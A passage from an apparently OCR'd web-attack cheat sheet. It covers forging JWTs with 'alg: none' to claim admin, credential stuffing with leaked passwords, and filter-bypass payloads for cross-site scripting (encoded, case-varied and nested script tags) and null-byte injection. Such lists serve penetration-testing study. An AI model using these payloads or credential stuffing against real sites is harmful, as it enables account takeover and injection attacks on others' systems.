 #### ✅ JWT Manipulation

* If server doesn’t verify signature:

```json
{
  "alg": "none",
  "user": "admin"
}
```

#### ✅ Credential Stuffing

* Use leaked credentials from other sites

---

## 🧨 4. Bypassing Input Validation

### 🔍 Common Protections:

* Regex filters
* Blacklists
* Length checks

### 🧪 Bypass Techniques:

#### ✅ Encoding Tricks

```html
%3Cscript%3Ealert(1)%3C/script%3E
```

→ Encoded payload bypasses filters

#### ✅ Case Variation

```html
<ScRiPt>alert(1)</ScRiPt>
```

#### ✅ Nested Tags

```html
<scr<script>ipt>alert(1)</script>
```

#### ✅ Null Byte Injection

```html
username=admin%00
```

→ May terminate string early

---

